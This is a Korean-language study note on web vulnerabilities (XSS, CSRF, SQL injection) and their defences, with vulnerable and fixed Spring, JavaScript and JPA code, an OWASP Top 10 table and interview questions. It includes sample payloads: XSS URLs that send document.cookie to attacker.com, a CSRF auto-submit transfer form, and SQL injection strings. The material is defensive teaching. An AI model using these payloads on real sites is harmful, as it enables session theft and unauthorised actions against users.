




# 웹 취약점과 방어 (Web Vulnerabilities)

> XSS·CSRF·SQL Injection이 각각 무엇을 착각한 결과인지 코드 수준에서 짚고, 취약한 코드를 안전한 코드로 고치는 근거를 설명할 수 있게 된다.

## 학습 목표

- [ ] Stored / Reflected / DOM-based XSS를 실제 공격 코드로 구분할 수 있다
- [ ] 출력 인코딩이 왜 "입력 검증"보다 근본적인 방어인지 설명할 수 있다
- [ ] CSRF가 성립하는 세 가지 조건을 말하고, 각 조건을 깨는 방어를 고를 수 있다
- [ ] PreparedStatement가 왜 이스케이프보다 확실한 해결인지 DB 내부 동작으로 설명할 수 있다
- [ ] OWASP Top 10의 상위 항목이 무엇을 가리키는지 안다

## 선행 지식

- HTTP 요청/응답과 쿠키의 기본 개념, SQL `SELECT` 문을 읽을 수 있는 정도

---

## 1. 왜 필요한가 — 데이터가 코드로 승격되는 순간

웹 취약점 목록은 길지만, 상위 항목 대부분은 한 문장으로 압축된다.

> **개발자는 "데이터"로 넣었는데, 해석하는 쪽은 "코드"로 읽었다.**

주소록에 `홍길동`이라고 적으면 이름이다. 그런데 어떤 시스템은 `홍길동, 삭제:전체`라고 적으면
뒤쪽을 명령으로 읽어버린다. 데이터를 적는 칸과 명령을 적는 칸이 같은 문자열로 합쳐져 있기 때문이다.

> **비유의 한계**: 실제로는 "칸"이 물리적으로 나뉘어 있지 않다. 문자열 하나를 파서가 훑으면서
> 문법과 값을 구분하므로, 어디까지가 값인지는 전적으로 파서의 규칙에 달려 있다.

| 취약점 | 데이터가 흘러 들어가는 곳 | 그것을 코드로 해석하는 주체 |
|--------|--------------------------|---------------------------|
| SQL Injection | SQL 쿼리 문자열 | 데이터베이스의 SQL 파서 |
| XSS | HTML 응답 본문 | 브라우저의 HTML/JS 파서 |
| Command Injection | 셸 명령 문자열 | OS 셸 |
| CSRF | (데이터 문제 아님) 요청 자체 | 서버의 인증 로직 |

앞의 셋은 **파서에게 "여기부터는 값이다"라고 알려주면** 사라진다. CSRF만 성격이 다른데,
"요청이 정상적으로 만들어졌는가"가 아니라 **"누가 이 요청을 시켰는가"**를 서버가 모르는 문제다.

---

## 2. XSS (Cross-Site Scripting)

공격자가 심은 스크립트가 **피해자의 브라우저에서, 그 사이트의 권한으로** 실행된다.
같은 출처에서 실행되므로 `document.cookie`, `localStorage`, 화면에 그려진 모든 데이터,
그리고 그 사용자로서 보내는 모든 요청이 공격자 손에 들어간다.

### 유형 1. Stored XSS — 서버에 저장되어 모두에게 터진다

<!-- diagram:sec-web-vulnerabilities-1 -->


<!-- 위 그림이 대체한 원본 ASCII.
     내용을 고칠 때는 그림도 함께 갱신할 것.
```
[공격자]                    [서버 DB]                   [피해자 전원]
   │  댓글 ""                          │
   │────────────────────────────►│ 그대로 저장                 │
   │                             │◄─ 게시글 조회 요청 ─────────│
   │                             │─ 저장된 문자열을 HTML에 삽입►│
   │                             │                     스크립트 실행
   │◄──────────────────────────────────────────────  쿠키 전송 │
```
-->

```html
<!-- 안티패턴 (Thymeleaf): utext는 "HTML로 해석하라"는 지시다 -->
<div th:utext="${comment.content}"></div>
```

**왜 문제인가**: 저장된 값이
``라면,
이 게시글을 여는 **모든 사용자**의 세션 쿠키가 공격자에게 전송된다.

```html
<!-- 개선: text는 & < > " ' 를 HTML 엔티티로 변환한다 -->
<div th:text="${comment.content}"></div>
```

### 유형 2. Reflected XSS — URL에 실려 왔다가 응답에 되비친다

```java
// 안티패턴: 검색어를 응답 HTML에 그대로 되돌려준다
@GetMapping(value = "/search", produces = "text/html")
@ResponseBody
public String search(@RequestParam String q) {
    return "<h1>'" + q + "' 검색 결과</h1>" + renderResults(q);
}
```

**왜 문제인가**: 공격자가 아래 링크를 피싱 메일이나 단축 URL로 뿌리면, 클릭한 사람의 브라우저에서
스크립트가 실행된다. 저장형과 달리 DB에 흔적이 남지 않아 공격받은 사실 자체를 모르고 지나가기 쉽다.
`https://shop.example.com/search?q=<script>location='https://attacker.com/?c='%2Bdocument.cookie</script>`

개선은 두 갈래다. 서버 렌더링이면 값을 model에 담고 `th:text`로 출력해 템플릿 엔진의 자동 이스케이프에
맡긴다. HTML을 문자열로 조립해야만 한다면 인코딩을 명시한다 —
`"<h1>" + HtmlUtils.htmlEscape(q) + "</h1>"` (`org.springframework.web.util`).

### 유형 3. DOM-based XSS — 서버는 아무 잘못이 없다

서버가 내려준 HTML은 멀쩡한데 **클라이언트 자바스크립트가** URL 조각을 DOM에 꽂으면서 터진다.
`#` 뒤 fragment는 서버로 전송조차 되지 않으므로 서버 로그에 흔적이 남지 않는다.

```javascript
// 안티패턴
const tab = location.hash.slice(1);              // "#profile" → "profile"
document.getElementById('title').innerHTML = tab;
```

**왜 문제인가**: `https://app.example.com/#`로 접속하면
`innerHTML`이 그 문자열을 HTML로 파싱한다. `<script>` 태그는 `innerHTML`로 넣어도 실행되지 않지만
`onerror`·`onload` 같은 이벤트 핸들러 속성은 그대로 동작한다. **"script 태그만 막으면 된다"는
블랙리스트 발상이 무너지는 지점**이다.

```javascript
// 개선 1: HTML 해석이 필요 없으면 textContent (대부분 여기서 끝난다)
document.getElementById('title').textContent = location.hash.slice(1);

// 개선 2: 값 자체를 화이트리스트로 제한 (tab은 위에서 꺼낸 location.hash.slice(1))
showTab(['profile', 'orders', 'settings'].includes(tab) ? tab : 'profile');

// 개선 3: 서식 있는 HTML을 꼭 받아야 하면 새니타이저를 거친다
element.innerHTML = DOMPurify.sanitize(userHtml);
```

`innerHTML`, `outerHTML`, `document.write`, `eval`, `location.href` 대입이 DOM XSS의 대표 진입점이다.

### 프레임워크를 쓰면 안전한가 — 절반만

React·Vue는 기본적으로 값을 이스케이프하지만 우회로가 두 군데 있다.

```jsx
// 안티패턴 1: 자동 이스케이프를 명시적으로 끈다 → DOMPurify.sanitize()를 거쳐야 한다
<div dangerouslySetInnerHTML={{ __html: post.content }} />

// 안티패턴 2: 이스케이프와 무관한 자리 — URL 스킴
<a href={user.website}>홈페이지</a>
// website가 "javascript:fetch('https://attacker.com?c='+document.cookie)" 이면 클릭 시 실행된다
// 개선: new URL(raw, location.origin)로 파싱해 protocol이 http/https일 때만 통과시킨다
```

### 인코딩은 "어디에 넣느냐"에 따라 달라진다

XSS 방어에서 가장 많이 놓치는 지점이다. HTML 이스케이프 하나로 모든 자리를 막을 수 없다.

| 값이 들어가는 자리 | 필요한 처리 | HTML 이스케이프만으로 되나 |
|-------------------|------------|--------------------------|
| `<div>여기</div>` | `& < > " '` → HTML 엔티티 | 된다 |
| `<div title="여기">` | HTML 엔티티 + **속성을 반드시 따옴표로 감싸기** | 따옴표를 안 쓰면 뚫린다 |
| `<a href="여기">` | 스킴 화이트리스트(`http`/`https`) + URL 인코딩 | 안 된다 (`javascript:`) |
| `<script>var x="여기"</script>` | JS 문자열 이스케이프. 가급적 `JSON.stringify` | 안 된다 |

> 결론: **HTML 안에 자바스크립트나 URL을 문자열로 조립하지 않는 것**이 가장 안전하다.
> 서버 데이터는 `<script type="application/json">`에 담아 `JSON.parse`로 읽되, 값 안의 `</script>`는
> 따로 이스케이프해야 한다. 그 문자열이 나오는 순간 HTML 파서가 스크립트 블록을 거기서 끝내버린다.

### 2차 방어 — CSP와 HttpOnly

출력 인코딩이 1차 방어이고, 아래는 "그래도 한 군데를 놓쳤을 때" 피해를 줄이는 층이다.

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-a1b2c3'; object-src 'none'
```

`script-src 'self'`는 같은 출처에서 내려온 스크립트만 허용한다. 인라인 스크립트(`<script>...</script>`,
`onerror=`)가 기본 차단되므로 위에서 본 `onerror` 공격이 실행 단계에서 막힌다. 반면 `'unsafe-inline'`을
넣으면 그 차단이 통째로 해제되어 **CSP를 켰다는 안도감만 남는다.** 기존 인라인 코드 때문에 어쩔 수
없다면 요청마다 랜덤 값을 심는 **nonce** 방식을 쓴다. 공격자가 삽입한 태그에는 nonce가 없다.

쿠키에 `HttpOnly`를 걸면 `document.cookie` 접근이 막히지만 **XSS 자체를 막는 것은 아니다.**
스크립트는 여전히 실행되고, 쿠키를 훔치는 대신 그 사용자로서 요청을 보내면 그만이다.

---

## 3. CSRF (Cross-Site Request Forgery)

<!-- diagram:sec-web-vulnerabilities -->


### 성립 조건 세 가지

CSRF는 데이터를 훔치는 공격이 아니다. **피해자의 브라우저를 리모컨처럼 써서** 서버에 명령을 보낸다.
아래 셋이 동시에 만족돼야 성립하므로, 하나만 깨도 공격은 실패한다.

```
조건 1. 자격 증명이 자동으로 붙는다      쿠키·HTTP Basic. 브라우저가 알아서 첨부한다
조건 2. 서버가 요청의 출처를 검증하지 않는다  세션만 유효하면 어디서 왔든 처리한다
조건 3. 공격자가 요청을 완전히 재현할 수 있다  공격자가 모를 값(토큰)이 하나도 없다
```

<!-- diagram:sec-web-vulnerabilities-2 -->


<!-- 위 그림이 대체한 원본 ASCII.
     내용을 고칠 때는 그림도 함께 갱신할 것.
```
[피해자 브라우저]                                    [bank.com]
       │  ① 로그인 → 세션 쿠키 보관                        │
       │◄──────────────────────────────────────────────────│
       │  ② evil.com 방문 (다른 탭이어도 무방)              │
       │     <form action="https://bank.com/transfer"      │
       │           method="POST" id="f">                   │
       │       <input name="to" value="attacker">          │
       │       <input name="amount" value="1000000">       │
       │     </form>  <script>f.submit()</script>          │
       │  ③ 브라우저가 bank.com 쿠키를 자동 첨부해 전송      │
       │──────────────────────────────────────────────────►│
       │                            ④ 세션 유효 → 송금 처리 │
```
-->

공격자는 **응답을 읽지 못한다**(Same-Origin Policy가 막는다). 읽을 필요도 없다.
요청이 처리되기만 하면 목적은 달성된다. 그래서 "CORS가 막아주지 않나요?"는 오해다.
CORS는 응답 읽기를 막을 뿐 요청 전송은 막지 않는다.

### 방어 1. SameSite 쿠키 — 조건 1을 깬다

| 값 | 동작 | 쓰는 곳 |
|----|------|--------|
| `Strict` | 다른 사이트에서 시작된 모든 요청에 쿠키 미전송(링크 클릭 포함) | 금융·관리자. 외부 링크 진입 시 로그아웃처럼 보이는 불편 감수 |
| `Lax` | 최상위 내비게이션의 GET에만 전송. `<form method=POST>`, ``, XHR에는 미전송 | 일반 서비스의 기본값 |
| `None` | 항상 전송. `Secure` 필수 | 크로스 사이트 임베드가 꼭 필요한 경우 |

`Lax`만으로도 위 시나리오의 대부분이 차단된다. 다만 **GET으로 상태를 바꾸는 API가 있으면 링크 클릭
유도로 뚫린다.** 최상위 내비게이션 GET에는 쿠키가 붙기 때문이다. 그래서 **GET은 상태를 변경하지
않는다**는 REST 원칙이 그 자체로 CSRF 방어다.

### 방어 2. CSRF 토큰 — 조건 3을 깬다

```java
// 안티패턴: 세션만 확인하고 끝낸다
@PostMapping("/transfer")
public String transfer(@RequestParam String to, @RequestParam long amount, HttpSession session) {
    Long userId = (Long) session.getAttribute("userId");
    if (userId == null) throw new UnauthorizedException();
    transferService.send(userId, to, amount);   // 요청의 출처를 묻지 않는다
    return "ok";
}
```

**왜 문제인가**: 이 코드가 확인하는 것은 "요청을 보낸 브라우저에 유효한 세션이 있는가"뿐이다.
"사용자가 우리 화면에서 의도적으로 눌렀는가"는 다른 질문인데, 그것은 확인하지 않는다.

Spring Security는 CSRF 필터가 기본 활성화되어, 세션에 저장한 토큰과 요청의 `_csrf` 값을 비교하고
다르면 403으로 거부한다. Thymeleaf는 `th:action`을 쓰면 hidden 토큰을 자동 삽입하고,
SPA에서는 `X-CSRF-TOKEN` 헤더로 실어 보낸다. 공격자가 이 토큰을 알아내려면 우리 페이지의 응답을
읽어야 하는데 SOP가 그것을 막는다. **SOP가 있어야 CSRF 토큰이 의미를 갖는다.**

### 방어 3. Origin 헤더 검증 — 조건 2를 깬다

```java
String origin = request.getHeader("Origin");
if (origin != null && !ALLOWED_ORIGINS.contains(origin))
    throw new AccessDeniedException("cross-site request rejected");
```

`Origin`은 브라우저가 붙이며 자바스크립트로 위조할 수 없다. 다만 일부 상황에서는 헤더 자체가 없어서
**없을 때 어떻게 처리할지**를 정해야 한다. 무조건 거부하면 정상 요청이 깨지고 허용하면 방어가
무력해지므로, 주 방어가 아니라 보조 층으로 쓴다.

### 토큰 기반 인증이면 CSRF가 없나

`Authorization: Bearer <token>`은 **브라우저가 자동으로 붙여주지 않는다.** 조건 1이 성립하지 않아
CSRF도 성립하지 않는다. 대신 그 토큰을 `localStorage`에 두면 XSS 한 번에 전부 털린다.

| 저장 위치 | XSS | CSRF | 비고 |
|-----------|-----|------|------|
| `localStorage` | 매우 취약 | 안전 | 스크립트가 바로 읽는다 |
| 일반 쿠키 | 취약 | 매우 취약 | 최악의 조합 |
| `HttpOnly` 쿠키 | 안전 | 취약 | SameSite를 반드시 함께 |
| `HttpOnly`+`Secure`+`SameSite` 쿠키 | 안전 | 안전 | 실무 권장 |
| 메모리(JS 변수) | 새로고침 시 소멸해 피해 축소 | 안전 | Access Token |

> 결론: Access Token은 메모리, Refresh Token은 `HttpOnly; Secure; SameSite` 쿠키에 두고
> 갱신 엔드포인트에서만 쓰는 구성이 무난하다. **CSRF를 피하려다 XSS 노출을 키우는 맞바꿈**을 경계한다.

---

## 4. SQL Injection

### 왜 이스케이프가 근본 해결이 아닌가

```java
// 안티패턴 1: 문자열 연결
String sql = "SELECT * FROM users WHERE email = '" + email + "'";
// email = "' OR '1'='1' --"  →  실제 실행: ... WHERE email = '' OR '1'='1' --'
// 안티패턴 2: 직접 이스케이프 (더 위험하다)
String sql = "SELECT * FROM users WHERE email = '" + email.replace("'", "''") + "'";
```

**왜 문제인가**: 이스케이프 규칙은 **DB 제품, 문자 인코딩, 설정에 따라 달라진다.**
MySQL은 백슬래시를 이스케이프 문자로 취급하지만 표준 SQL은 아니다. 무엇보다
**숫자 컬럼에는 따옴표가 없어서** `WHERE id = " + id`에 `1 OR 1=1`을 넣으면 치환이 아무 소용이 없다.
"내가 모든 경우를 다 막았는가"를 개발자가 매번 증명해야 하는 방어는 결국 뚫린다.

### PreparedStatement가 하는 일

```java
// 개선
String sql = "SELECT * FROM users WHERE email = ?";
try (PreparedStatement ps = conn.prepareStatement(sql)) {
    ps.setString(1, email);
    ResultSet rs = ps.executeQuery();
}
```

핵심은 **문자열을 안전하게 만드는 것이 아니라, 문자열을 아예 합치지 않는 것**이다.

<!-- diagram:sec-web-vulnerabilities-3 -->


<!-- 위 그림이 대체한 원본 ASCII.
     내용을 고칠 때는 그림도 함께 갱신할 것.
```
[문자열 연결]
  입력 ──합침──► SQL 문자열 ──► DB 파서 ──► 실행 계획
                                  ▲
                     여기서 파싱될 때 입력이 문법으로 승격된다

[PreparedStatement]
  SQL 뼈대 ──► DB 파서 ──► 실행 계획 (완성) ─┐
                                            │  ← 파싱이 이미 끝났다
  입력 ────────────────────► 파라미터 바인딩 ─┘
                             값 슬롯에만 들어간다. 문법을 바꿀 수 없다
```
-->

DB는 `?` 자리표시자가 있는 상태로 먼저 구문을 분석하고 실행 계획을 세운다. 파싱이 끝난 트리는
값으로 바꿀 수 없으므로 `' OR '1'='1`이 들어와도 **"따옴표가 포함된 이메일 문자열"**이 될 뿐이다.
JDBC 드라이버에 따라 이 분리를 클라이언트 쪽에서 처리하기도 하지만, 성질은 동일하다.

### PreparedStatement로도 못 막는 자리

바인딩할 수 있는 것은 **값**뿐이다. 테이블명, 컬럼명, `ORDER BY` 방향은 파스 트리의 **구조**라서
`?`를 쓸 수 없다.

```java
// 안티패턴
String sql = "SELECT * FROM products ORDER BY " + sortColumn + " " + direction;

// 개선: 구조에 해당하는 값은 화이트리스트로 매핑한다
private static final Map<String, String> SORT_COLUMNS =
    Map.of("price", "price", "name", "name", "createdAt", "created_at");

String column = SORT_COLUMNS.getOrDefault(sortColumn, "created_at");
String dir = "desc".equalsIgnoreCase(direction) ? "DESC" : "ASC";
String sql = "SELECT * FROM products ORDER BY " + column + " " + dir;
```

ORM도 만능이 아니다. JPA는 내부적으로 PreparedStatement를 쓰지만 JPQL이나 네이티브 쿼리를
문자열로 조립하면 취약점이 그대로 살아난다(`@Query("... LIKE %:name%")`처럼 이름 있는 파라미터를 쓴다).
MyBatis에서는 `${}`가 문자열 치환, `#{}`가 파라미터 바인딩이므로 **`${}`는 인젝션에 그대로 노출된다.**

---

## 5. OWASP Top 10 (2021) 요약

| 순위 | 항목 | 한 줄 설명 | 대표 사례 |
|------|------|-----------|----------|
| A01 | Broken Access Control | 인증은 됐지만 **권한 검사가 없다** | 남의 주문 번호로 조회되는 IDOR |
| A02 | Cryptographic Failures | 민감 데이터가 암호화 없이/약하게 다뤄짐 | 평문 비밀번호, HTTP 전송, MD5 |
| A03 | Injection | 데이터가 코드로 해석됨 (**XSS 포함**) | SQL/OS 커맨드 인젝션, XSS |
| A04 | Insecure Design | 구현이 아니라 **설계 자체**의 결함 | 추측 가능한 질문만으로 비밀번호 재설정 |
| A05 | Security Misconfiguration | 기본 계정, 불필요한 기능, 상세 에러 노출 | 스택 트레이스 노출, 디버그 모드 배포 |
| A06 | Vulnerable and Outdated Components | 취약한 버전의 라이브러리 사용 | Log4Shell 같은 의존성 취약점 |
| A07 | Identification and Authentication Failures | 인증 절차 자체의 약점 | 무제한 로그인 시도, 세션 ID 미재발급 |
| A08 | Software and Data Integrity Failures | 검증 없는 코드/데이터 신뢰 | 서명 검증 없는 자동 업데이트, 역직렬화 |
| A09 | Security Logging and Monitoring Failures | 사고를 탐지하지 못함 | 로그인 실패 로그 없음, 알림 미설정 |
| A10 | Server-Side Request Forgery | 서버가 공격자가 지정한 곳으로 요청을 보냄 | 이미지 URL 입력란에 내부망 주소 |

**A01이 1위라는 점**이 시사적이다. 프레임워크가 인젝션은 상당 부분 막아주지만 "이 사용자가 이
리소스를 볼 수 있는가"는 대신 판단해줄 수 없다. 목록은 몇 년 주기로 갱신되니 최신판도 확인해둔다.

```java
// 안티패턴: 인증은 확인했지만 소유권을 확인하지 않았다 (IDOR)
@GetMapping("/orders/{orderId}")
public OrderResponse get(@PathVariable Long orderId) {
    return orderService.findById(orderId);   // 남의 주문 번호를 넣어도 그냥 조회된다
}

// 개선: 조회 후 리소스 소유자와 요청자가 같은지 확인한다
if (!order.getUserId().equals(me.getId())) throw new AccessDeniedException("not your order");
```

---

## 6. 실무에서는

- **Spring Security의 CSRF 필터를 끄는 것이 관행처럼 굳어 있다.** 세션을 안 쓰는 REST API라면 타당하지만,
  세션 쿠키를 그대로 쓰면서 `csrf().disable()`만 넣은 코드가 흔하다. 쿠키 인증이면 끄면 안 된다.
- **CSP는 `Content-Security-Policy-Report-Only`로 먼저 배포한다.** 위반 사항만 리포트로 받고 차단은 하지
  않는 모드다. 기존 인라인 스크립트 규모를 파악한 뒤 단계적으로 조인다.
- **의존성 취약점(A06)은 자동화로 관리한다.** Dependabot, `npm audit`, OWASP Dependency-Check를
  CI에 붙여두면 새 CVE가 공개될 때 알림이 온다.
- **운영 응답에 스택 트레이스를 내보내지 않는다.** 프레임워크 버전과 내부 경로가 노출되면 공격자에게
  지도를 주는 셈이다. 일반화된 메시지와 추적 ID만 반환한다.

---

## 7. 면접 포인트

> 면접에서 이 주제가 나오면 이렇게 답한다

**Q. XSS 3종을 구분해서 설명해주세요.**

A. 악성 스크립트가 어디에 머물다 실행되느냐로 나눕니다. Stored는 DB에 저장돼 그 화면을 보는 모든
사용자에게 실행되므로 피해가 가장 큽니다. Reflected는 URL 파라미터가 응답에 되비쳐 링크를 클릭한
사람에게만 실행됩니다. DOM-based는 서버를 거치지 않고 클라이언트 JS가 `location.hash` 같은 값을
`innerHTML`에 넣을 때 발생해, 서버 로그에 흔적이 없어 탐지가 가장 어렵습니다. 공통 방어는 출력 시점의
컨텍스트별 인코딩이고 CSP와 HttpOnly는 2차 층입니다.
- 꼬리 질문: "`<script>` 태그만 필터링하면 되지 않나요?" → `innerHTML`로 삽입된 `<script>`는 오히려
  실행되지 않고, 실제 공격은 ``, `<svg onload>`, `javascript:` URL로 들어온다.
  블랙리스트는 항상 우회당하므로 출력 인코딩이 정답이다.

**Q. CSRF는 어떤 조건에서 성립하나요?**

A. 세 가지가 동시에 필요합니다. 자격 증명이 브라우저에 의해 자동 첨부되고, 서버가 요청 출처를
검증하지 않으며, 공격자가 요청을 완전히 재현할 수 있어야 합니다. 그래서 방어도 각 조건을 깨는
방향입니다. SameSite 쿠키가 첫째를, Origin 검증이 둘째를, CSRF 토큰이 셋째를 깹니다.
Bearer 토큰은 브라우저가 자동으로 붙이지 않으므로 첫째 조건 자체가 성립하지 않습니다.
- 꼬리 질문: "CORS가 CSRF를 막아주지 않나요?" → 막지 못한다. CORS는 응답을 JS에 노출할지 결정할 뿐
  요청 전송은 막지 않고, CSRF 공격자는 애초에 응답을 읽을 필요가 없다.

**Q. PreparedStatement가 왜 근본적인 해결책인가요?**

A. 이스케이프는 "위험한 문자를 안전하게 바꾸는" 접근이라 DB 제품과 인코딩마다 규칙이 달라지고,
숫자 컬럼처럼 따옴표가 없는 자리에서는 무력합니다. PreparedStatement는 `?` 자리표시자가 있는 상태로
DB가 먼저 구문을 파싱하고 실행 계획까지 세운 뒤에 값을 바인딩합니다. 파싱이 이미 끝났으니 값이
아무리 SQL 문법처럼 생겨도 파스 트리를 바꿀 수 없습니다. 데이터와 코드를 **문자열 수준이 아니라
처리 단계 수준에서 분리**하는 것이 핵심입니다.
- 꼬리 질문: "그럼 SQL Injection이 완전히 사라지나요?" → 값에 대해서는 그렇다. 하지만 테이블명·컬럼명·
  정렬 방향은 바인딩할 수 없어 화이트리스트가 필요하고, MyBatis `${}`와 JPQL 문자열 조립도 위험하다.

**Q. XSS와 CSRF 중 어느 쪽이 더 위험한가요?**

A. XSS입니다. CSRF는 공격자가 정해둔 요청 하나를 보내게 만드는 데 그치고 응답도 읽지 못하지만,
XSS는 피해자 브라우저에서 임의 코드를 실행하므로 CSRF 토큰까지 읽어낼 수 있습니다.
**XSS가 뚫리면 CSRF 방어도 함께 무력화**되므로 방어 우선순위는 XSS가 먼저입니다.
- 꼬리 질문: "XSS가 있으면 HttpOnly도 소용없나요?" → 쿠키 값 탈취는 막지만, 스크립트가 그 브라우저
  안에서 사용자 대신 요청을 보내는 것은 막지 못한다. 피해 축소책이지 차단책이 아니다.

---

## 자주 하는 실수

| 실수 | 왜 틀렸나 | 올바른 이해 |
|------|----------|-----------|
| "입력 검증만 잘하면 XSS는 막힌다" | 같은 문자열도 들어가는 자리에 따라 위험 여부가 달라진다 | 방어의 축은 **출력 시점의 컨텍스트별 인코딩**. 입력 검증은 보조 |
| "React를 쓰니 XSS는 신경 안 써도 된다" | `dangerouslySetInnerHTML`과 `href`/`src`는 자동 이스케이프 밖이다 | 프레임워크는 HTML 텍스트 자리만 막아준다. URL 스킴은 직접 검증 |
| "HttpOnly를 걸었으니 XSS는 안전하다" | 쿠키 탈취만 막을 뿐 스크립트 실행은 그대로다 | 공격자는 쿠키 없이도 그 브라우저에서 요청을 보낼 수 있다 |
| "CORS를 설정했으니 CSRF도 막힌다" | CORS는 응답 읽기만 통제한다 | CSRF는 응답을 읽지 않아도 성립한다. SameSite/토큰이 필요 |
| "ORM을 쓰면 SQL Injection이 불가능하다" | JPQL·네이티브 쿼리를 문자열로 조립하면 그대로 취약 | `${}`, 문자열 `+`가 보이면 의심한다 |
| "OWASP 1위는 XSS다" | 2021년 기준 1위는 Broken Access Control | 권한 검사 누락(IDOR 등)이 가장 흔하고 피해도 크다 |

---

## 한 줄 정리

XSS와 SQL Injection은 **데이터를 코드로 해석하게 둔 실수**이므로 파서에게 경계를 알려주는 것(인코딩, 파라미터 바인딩)으로 풀고, CSRF는 **요청의 출처를 묻지 않은 실수**이므로 자동 첨부·출처 미검증·재현 가능성 중 하나를 깨서 푼다.

---

## 연관 개념

- [02-cors-same-origin.md](./02-cors-same-origin.md) - CSRF 토큰이 의미를 갖게 해주는 Same-Origin Policy
- [03-https-tls.md](./03-https-tls.md) - 전송 구간이 뚫리면 위 방어가 모두 무의미해지는 이유
- [04-cryptography-hashing.md](./04-cryptography-hashing.md) - OWASP A02(Cryptographic Failures)의 구체적 내용
- [qna-security.md](./qna-security.md) - Q1(SQL Injection), Q2(XSS), Q6(CSRF)
- [../02-backend-engineering/authentication/02-jwt-token.md](../02-backend-engineering/authentication/02-jwt-token.md) - 토큰 저장 위치 선택과 XSS/CSRF 맞바꿈
- [../02-backend-engineering/database/01-jpa-orm.md](../02-backend-engineering/database/01-jpa-orm.md) - JPA가 파라미터를 바인딩하는 방식
